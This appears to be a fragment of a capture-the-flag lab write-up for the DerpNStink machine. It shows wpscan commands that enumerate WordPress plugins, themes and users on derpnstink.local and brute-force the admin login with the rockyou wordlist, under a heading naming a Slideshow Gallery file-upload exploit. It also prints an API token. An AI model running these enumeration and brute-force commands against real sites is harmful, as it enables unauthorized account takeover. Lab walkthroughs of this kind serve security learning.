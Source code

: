 ### 1.3.2.1 Wpscan
`wpscan --url http://derpnstink.local/weblog/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt --ignore-main-redirectt`
![0b7722db9c17f1f4e0ae67eb9dc287c1.png](./_resources/2b5862fe19c94599b4873571c40d3583.png)
![648b7258e4620f69ae90b8fef940f0d5.png](./_resources/a6f878970100450487a2c2f207cc2f03.png)
![9d6d44268d5ad580985802073d01b370.png](./_resources/4296200b4067411c9a2213603baae34f.png)
![e9ab25621e52d2ad0626246496458620.png](./_resources/1a27f22b75354542a040b0060e84da37.png)


# 2 Exploitation using previously found exploits (Slideshow Gallery < 1.4.7 - Arbitrary File Upload)
## 2.1 Wordpress brute force login - wpscan
`wpscan --url http://derpnstink.local/weblog/ -P /root/shared/rockyou.txt -U admin -t 50`
![8635dbf1cc7acc12678fceae7c575183.png](./_resources/24db8ac9040144819495954b937c53b9.png)
